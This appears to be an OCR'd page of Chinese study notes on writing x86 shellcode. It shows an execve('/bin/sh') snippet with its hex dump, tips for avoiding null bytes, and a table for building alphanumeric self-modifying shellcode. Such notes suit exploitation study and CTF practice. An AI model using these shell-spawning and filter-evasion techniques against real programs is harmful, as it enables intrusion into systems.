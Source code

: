 **注：使用mov eax, 0赋值时可能会出错**

错误代码：

```x86asm
se:
  pop ebx
  mov eax, 11
  mov ecx, ecx
  mov edx, edx
  int 0x80
```

用作payload时会产生0x00字符遇到read()的情况会被截断

```bash
$ xxd test.bin
00000000: eb0c 5bb8 0b00 0000 89c9 89d2 cd80 e8ef  ..[.............
00000010: ffff ff2f 6269 6e2f 7368 00              .../bin/sh.
```

**[Linux System Call Table](http://shell-storm.org/shellcode/files/syscalls.html)**

* * *

## shellcode

- 不能有\\0
- 可以用call + pop的方式拿到shellcode address
- 长度不足时，如果还能输入可以make read函数

## alphanumeric Shellcode

> 只能用0-9写shellcode

int 0x80 = \\xcd\\x80，如何用数字做sys_call？

**自修改**

| decoder1 | encoded decoder2 | encoded shellcode |

    a   61                      popa   
    b   62 41 42                bound  eax, QWORD PTR [ecx+0x42]
    c   63 41 42                arpl   WORD PTR [ecx+0x42], ax
    d   64 41                   fs inc ecx
    e   65 41                   gs inc ecx
    f   66 41                   inc    cx
    g   67 41                   addr16 inc ecx
    h   68 41 42 43 44          push   0x44434241
    i   69 41 42 43 44 45 46    imul   eax, DWORD PTR [ecx+0x42], 0x46454443
    j   6a 41                   push   0x41
    k   6b 41 42 43             imul   eax, DWORD PTR [ecx+0x42], 0x43
    l   6c                      ins    BYTE PTR es:[edi], dx
    m   6d                      ins    DWORD PTR es:[edi], dx
    n   6e                      outs   dx, BYTE PTR ds:[esi]
    o   6f                      outs   dx, DWORD PTR ds:[esi]
    p   70 41                   jo     0x43
    q   71 41                   jno    0x43
    r   72 41                   jb     0x43
    s   73 41                   jae    0x43
    t   74 41                   je     0x43
    u   75 41                   jne    0x43
    v   76 41                   jbe    0x43
    w   77 41                   ja     0x43
    x   78 41                   js     0x43
    y   79 41                   jns    0x43
    z   7a 41                   jp     0x43
    A   41                      inc    ecx
